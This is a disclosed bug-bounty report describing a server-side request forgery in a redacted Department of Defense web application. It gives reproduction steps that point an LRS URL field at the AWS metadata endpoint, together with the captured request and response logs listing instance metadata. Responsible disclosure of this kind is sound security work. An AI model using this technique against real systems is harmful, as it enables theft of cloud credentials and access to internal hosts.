 # Full read SSRF at █████████ [HtUS]

## Report Details
- **Report ID**: 1628102
- **URL**: https://hackerone.com/reports/1628102
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-07-06T14:16:13.838Z
- **Disclosed**: 2022-09-14T20:52:39.213Z

## Reporter
- **Username**: sudi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Heyy there,
We have found a full read ssrf vuln in https://█████ , we were able to hit the AWS Metadata endpoint (http://███████) though the SSRF Vuln.


------------

**Steps to reproduce:**

1.Goto https://██████/users/create and create an account
2.After you account is verified , get login
If for some reasons you are not the verification code, try with a gmail id

3.Now visit: https://████/products/create/   and fill the required details
4.Once your product is created, click on `New Configuration` which is under *LRS Configurations*

████████

5.Enter this as the input for * LRS URL *: `http://█████████/latest/meta-data?` (the question mark at the end is important)
6.Under *Basic Auth User & Pass* enter test for both fields and click on `Create new LRS configuration` 

█████

7.Once the `Configuration` is created click on the `Test` button beside the conifguration name
████
8.Now you will be redirected to the homepage, so go back to the product page
9.Under `Past Results` you should be able to see a new entry
10.Click on `Manage Test record` > `Download log`
11.Now check the `Include HTTP` checkbox and from the `Log Format` drop down menu choose *Plain text*

A file with the name `log` should be downloaded in your computer, just open it and there you will find the response from the aws meta data endpoint:

```

""
failed
"SyntaxError: Unexpected token a in JSON at position 0"
REQUEST SUPERREQUEST
_______________________________________
POST /latest/meta-data?/statements HTTP/1.1
X-Experience-API-Version: 1.0.3
Authorization: Basic dGVzdDp0ZXN0
host: ██████████
accept: application/json
content-type: application/json
content-length: 324
Connection: close

{"actor":{"objectType":"Agent","name":"xAPI mbox","mbox":"mailto:████"},"verb":{"id":"http://███","display":{"en-GB":"attended","en-US":"attended"}},"object":{"objectType":"Activity","id":"http://www.example.com/meetings/occurances/34534"},"id":"3b9e4565-07ac-475f-be1f-d5f590f40779"}

RESPONSE SUPERREQUEST
_______________________________________
HTTP/1.0 200 OK
accept-ranges: bytes
content-length: 326
content-type: text/plain
date: Wed, 06 Jul 2022 13:48:12 GMT
last-modified: Thu, 30 Jun 2022 09:37:12 GMT
connection: close
server: EC2ws

ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hibernation/
hostname
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
=======================================
REQUEST SUPERREQUEST
_______________________________________
GET /latest/meta-data?/statements?statementId=3b9e4565-07ac-475f-be1f-d5f590f40779 HTTP/1.1
X-Experience-API-Version: 1.0.3
Authorization: Basic dGVzdDp0ZXN0
host: ██████
Connection: close

RESPONSE SUPERREQUEST
_______________________________________
HTTP/1.0 200 OK
accept-ranges: bytes
content-length: 326
content-type: text/plain
date: Wed, 06 Jul 2022 13:48:12 GMT
last-modified: Thu, 30 Jun 2022 09:37:12 GMT
connection: close
server: EC2ws

ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hibernation/
hostname
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
=======================================

```

## Impact

An attacker can dump aws keys  , reach internal hosts and etc


Thankyou
Regards
heint and sudi

## Attachments
No attachments
